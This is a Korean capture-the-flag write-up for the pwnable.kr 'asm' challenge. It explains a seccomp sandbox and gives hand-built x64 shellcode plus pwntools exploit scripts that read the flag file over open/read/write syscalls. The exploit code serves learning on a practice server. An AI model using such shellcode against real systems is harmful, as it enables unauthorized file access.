 # 문제
Mommy! I think I know how to make shellcodes

ssh asm@pwnable.kr -p2222 (pw: guest)

---

# 개요 

```
asm@pwnable:~$ ls -al
total 48
drwxr-x---   5 root asm   4096 Jan  2  2017 .
drwxr-xr-x 116 root root  4096 Nov 11  2021 ..
-rwxr-xr-x   1 root root 13704 Nov 29  2016 asm
-rw-r--r--   1 root root  1793 Nov 29  2016 asm.c
d---------   2 root root  4096 Nov 19  2016 .bash_history
dr-xr-xr-x   2 root root  4096 Nov 25  2016 .irssi
drwxr-xr-x   2 root root  4096 Jan  2  2017 .pwntools-cache
-rw-r--r--   1 root root   211 Nov 19  2016 readme
-rw-r--r--   1 root root    67 Nov 19  2016 this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
asm@pwnable:~$
```
플래그 파일의 상태가 매우 이상합니다. readme 파일을 먼저 확인해봅니다.

```
asm@pwnable:~$ cat readme
once you connect to port 9026, the "asm" binary will be executed under asm_pwn privilege.
make connection to challenge (nc 0 9026) then get the flag. (file name of the flag is same as the one in this directory)
```
9026 포트에 붙여 쉘코드를 보내야 flag를 보여준다고 합니다. 그리고 해당 내용을 보아 하니 flag 파일은 this_is~~~~~파일인것 같습니다. 이제 asm.c를 살펴봅시다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
        scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
        if (ctx == NULL) {
                printf("seccomp error\n");
                exit(0);
        }

        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

        if (seccomp_load(ctx) < 0){
                seccomp_release(ctx);
                printf("seccomp error\n");
                exit(0);
        }
        seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

        setvbuf(stdout, 0, _IONBF, 0);
        setvbuf(stdin, 0, _IOLBF, 0);

        printf("Welcome to shellcoding practice challenge.\n");
        printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
        printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
        printf("If this does not challenge you. you should play 'asg' challenge :)\n");

        char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
        memset(sh, 0x90, 0x1000);
        memcpy(sh, stub, strlen(stub));

        int offset = sizeof(stub);
        printf("give me your x64 shellcode: ");
        read(0, sh+offset, 1000);

        alarm(10);
        chroot("/home/asm_pwn");        // you are in chroot jail. so you can't use symlink in /tmp
        sandbox();
        ((void (*)(void))sh)();
        return 0;
}
```
전역 배열 변수 ```stub[]``` 에 기반이 되는 어셈블리 코드가 들어가 있고 할당된 ```sh``` heap에 ```stub```을 ```memcpy``` 시키는 것을 알 수 있습니다. 그리고 해당 코드 이후에 사용자 입력을 1000바이트 받아온 뒤 ```sandbox()``` 함수를 실행합니다.
```c
void sandbox(){
        scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
        if (ctx == NULL) {
                printf("seccomp error\n");
                exit(0);
        }

        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

        if (seccomp_load(ctx) < 0){
                seccomp_release(ctx);
                printf("seccomp error\n");
                exit(0);
        }
        seccomp_release(ctx);
}
```
```sandbox()``` 함수를 확인해보니 ```seccomp```를 사용하여 System Call을 제한하는 것을 확인할 수 있습니다. ```seccomp```에 대한 자세한 설명은 [여기](https://ko.wikipedia.org/wiki/Seccomp) 를 참고하세요.  
  
즉 우리는 ```open```, ```read```, ```write```, ```exit```, ```exit_group``` 5 개의 System Call을 사용하여 쉘코드를 제작해야 합니다.

---
# 분석

환경에 맞는 쉘코드를 작성하는 것이 문제 풀이의 핵심이며, ```pwntools```의 ```shellcraft```를 사용하는 방법과, 직접 쉘코드를 만들어 사용하는 방법 두 가지가 있습니다. 직접 쉘코드를 만들 경우 [x64 system call table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) 을 참조하여 [이 사이트](https://defuse.ca/online-x86-assembler.htm#disassembly2) 쉘코드를 제작합니다. 쉘코드 제작에 사용한 어셈블리 코드는 아래와 같습니다.
```asm
mov rax, 0x2
mov rdi, 0x4141406f
syscall
mov rdi, rax
mov rax, 0x0
mov rsi, 0x41414500
mov rdx, 0x100
syscall
mov rax, 0x1
mov rdi, 0x1
mov rdx, 0x00
syscall
```
```
Result (Raw Hex) : 48C7C00200000048C7C76F4041410F054889C748C7C00000000048C7C60045414148C7C2000100000F0548C7C00100000048C7C70100000048C7C2000000000F05
```
```
Result (String Literal) :
"\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x6F\x40\x41\x41\x0F\x05\x48\x89\xC7\x48\xC7\xC0\x00\x00\x00\x00\x48\xC7\xC6\x00\x45\x41\x41\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC2\x00\x00\x00\x00\x0F\x05"
```

만들어진 쉘코드를 사용하여 Exploit을 시도합니다.
```python
from pwn import*

s = remote("pwnable.kr", 9026)

payload = "\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x6F\x40\x41\x41\x0F\x05\x48\x89\xC7\x48\xC7\xC0\x00\x00\x00\x00\x48\xC7\xC6\x00\x45\x41\x41\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong\x00"

s.sendline(payload)
s.interactive()
```

두 번째 방법으로 ```shellcraft```를 활용하는 방법이 있습니다. ```shellcraft```의 사용법은 [여기](http://docs.pwntools.com/en/stable/shellcraft/amd64.html) 를 참고하시면 많은 정보를 얻으실 수 있습니다. 해당 문서를 참고하여 Exploit Code를 작성합니다.

```python
from pwn import*

file_name = "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"

shellcode = ''
shellcode += shellcraft.pushstr(file_name)
shellcode += shellcraft.open('rsp',0, None)
shellcode += shellcraft.read('rax', 'rsp', 100)
shellcode += shellcraft.write(1, 'rsp', 100)
shellcode += shellcraft.exit()
shellcode = asm(shellcode)

sh = ssh(user = 'asm', host = 'pwnable.kr', port = 2222, password = 'guest')
p = sh.remote('localhost', 9026)
p.recvuntil('shellcode: ')
p.sendline(shellcode)

print(p.recv(1024).decode())

```